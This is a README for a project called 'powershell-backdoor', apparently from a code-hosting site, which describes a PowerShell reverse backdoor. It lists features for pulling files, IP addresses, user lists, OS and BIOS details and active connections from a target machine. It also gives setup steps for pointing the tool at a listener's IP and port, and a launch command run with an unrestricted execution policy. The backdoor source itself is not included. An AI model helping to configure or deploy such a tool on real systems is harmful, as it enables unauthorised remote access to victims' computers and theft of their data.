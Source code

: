 # powershell-backdoor
A simple Powershell Reverse Backdoor

# Features / To Do
## Features 
* Download Files from remote system
* Fetch target computers public IP address
* List local users
*  Get OS Information
* Get BIOS Information
*  Get Active TCP Clients
## To Do 
* Find Intresting Files
* Find Writeable Directories
* Get Startup Apps
* Get Anti-Virus Status
* Get Windows Update Status

# Setup
Find the class Backdoor, and change the following lines 
```powershell
class Backdoor {
  # Change this to the correct ip/port
  [string]$ipAddress = "127.0.0.1"
  [int]$port = 4444
```

# Execution
```cmd
powershell.exe -File backdoor.ps1 -ExecutionPolicy Unrestricted
```
```cmd
┌──(drew㉿kali)-[/home/drew/Documents]
└─PS> ./backdoor.ps1
```
